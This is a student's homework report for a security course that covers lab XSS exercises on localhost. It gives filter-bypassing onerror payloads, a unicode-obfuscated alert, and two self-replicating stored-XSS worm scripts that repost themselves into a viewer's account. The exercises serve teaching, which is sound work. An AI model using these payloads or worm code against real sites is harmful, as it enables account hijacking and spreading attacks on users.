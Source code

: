 # TIC4304 Homework 2
- Name: Ke Yule
- Student Number: A0211495H E0493826
- Github: https://github.com/keyule/3001-Task1A

*View the markdown version for better formatting at:*   
*https://github.com/keyule/3001-Task1A/blob/main/Report/report.md* 

### Task 1
Code:  
```js
<image/src/onerror=alert("KeYule-A0211495H")> 
```  

I just browsed the list of XSS payloads for one without the words script or img 

```php
function filter($content)
{
	$filter = "/script|img/i";
	preg_match($filter, $content) && die("some string");
	return $content;
}
```
The above code checks if the string contains /script or img with case insensitivity. 

#### Screenshot 

>![Task 1](https://github.com/keyule/4304-hw2/blob/main/images/task1.png?raw=true)


### Task 2
Code:
```js
<image/src/onerror=al\u0065rt("KeYule-A0211495H")>
```
Obfuscation of the alert word

```php
#added
$content = str_replace("alert","", $content);
```
It replaces the word alert with nothing

#### Screenshot 
>![Task 2](https://github.com/keyule/4304-hw2/blob/main/images/task2.png?raw=true)

### Task 3

Link Approach:

Payload (the thing we paste in the form box):
```js
<script type="text/javascript" src="http://localhost/linkApproach.js"></script>
```
linkApproach.js: 
```js
window.onload = function(){
    var xhr = new XMLHttpRequest();

    var url = 'http://localhost/task3_submit.php?content=';
    var contenturl = '<script type="text/javascript" src="http://localhost/testnew.js"></script>'
    var endingbit = '&submit=submit';
    
    var fullurl = url + contenturl + endingbit;
    
    xhr.open('GET', fullurl, true);

    xhr.setRequestHeader("Cookie",document.cookie);
    xhr.onload = function() {
	    if (xhr.status===200){
		    console.log(xhr.responseText);
    	}else{
	    	console.log('failed' + xhr.status);
	    }
    };

    xhr.send();

} 
```
How it works is when viewing whatever the person saved. It will send a get request to post that same payload into your account.

Dom Approach: (paste the whole thing into the box)
```html
<script id=worm>
    var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>";
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
    
    var xhr = new XMLHttpRequest();

    var url = 'http://localhost/task3_submit.php?content=';
    var contenturl = wormCode;
    var endingbit = '&submit=submit';

    var fullurl = url + contenturl + endingbit;

    xhr.open('GET', fullurl, true);

    xhr.setRequestHeader("Cookie",document.cookie);
    xhr.onload = function() {
        if (xhr.status===200){
            console.log(xhr.responseText);
        }else{
            console.log('failed' + xhr.status);
        }
    };

    xhr.send();

</script>
```
When viewed it sends all the code in a get request to be posted into your account.

#### Technical Challenges
Biggest challenge was that I didnt know javascript. So I had no idea how was I suppose to even send a get request. Solved it by googling.

Another challenge was how to test out my get request to make sure im able to send and save stuff into the DB. Solved it by installing postman 

### Task 4
Task 1: Reflected  
Task 2: Stored  
Task 3: Stored   

The question says where are the types, im guessing you mean WHAT are the types. 